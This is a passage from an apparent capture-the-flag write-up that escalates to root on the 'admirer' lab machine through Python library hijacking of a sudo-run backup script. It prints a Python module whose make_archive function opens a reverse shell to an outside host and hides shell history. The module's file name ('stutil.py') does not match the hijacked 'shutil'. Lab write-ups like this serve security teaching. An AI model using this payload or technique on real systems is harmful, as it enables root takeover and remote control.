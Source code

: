 ## Root Flag

On to root. First thing we'll do is check the privileges of user `waldo`.

```
sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

Okay, it looks like `waldo` can execute a bash script as root. Taking a look at the script, option number 6 calls the `backup.py` python script to perform a backup of the web data. Knowing that this bash script can be run as root by `waldo`, we can infer that this python script is also called as root as well. Let's give this python script a look.

```
$ cat /opt/scripts/backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

The script imports the `make_archive` function from the `shutil` library and runs the method. Because the script is executed as the root user, this function is also ran as root. If we can make this `backup.py` script import a function that we've created, we can potential execute our code as root.

Well, that's just what we are going to do with a technique called Python library hijacking. [Here](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) is a great article on it. Essentially, we are going to alter the path that is used upon execution and point it the directory where we have our own malicious library.

Let's create our own `stutil.py` in the `/tmp` directory.

```
import os
import pty
import socket

lhost = "10.10.15.83"
lport = 4444

def make_archive(a, b, c):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((lhost, lport))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
```
